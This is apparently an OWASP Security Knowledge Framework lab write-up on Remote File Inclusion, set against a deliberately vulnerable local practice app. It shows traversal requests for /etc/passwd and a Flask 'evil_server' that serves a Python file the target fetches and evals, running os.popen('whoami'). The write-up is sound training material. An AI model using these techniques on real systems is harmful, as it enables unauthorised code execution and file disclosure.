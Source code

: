 # KBID 173 - Remote File Inclusion


## Running the app



```text
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript 

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](.gitbook/assets/RFI1.png)

![](.gitbook/assets/RFI2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](.gitbook/assets/RFI3.png)


To exploit Remote File Inclusion vulnerability, we have two approaches documented in detail below:


1. Use pastebin.com to serve the file including system command and include the pastebin raw url:

For E.g.: You may copy the code below to pastebin.com ans save. Then include the raw URL which would look something like "https://pastebin.com/raw/ZLeFHRNf":


```
os.popen('whoami').read()
```

![](.gitbook/assets/RFI31.png)

2. Creating your own webserver: In this case you can use Python Flask to create a small webserver that serves your file. We name it evil_server.py


```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
	
```
Then we create our folder template where we will put our evil.py file with the below content.

```python
5 + 5
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

![](.gitbook/assets/RFI4.png)

Our remote file inclusion worked and the application seems to load python files and eval() the content of them. This means we can also inject a system command in our evil.py file. 

```python
os.popen('whoami').read()
```

![](.gitbook/assets/RFI5.png)

{% hint style="success" %} 
 Success! As we observed, we can include our own files through RFI. 
{% endhint %}

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion 
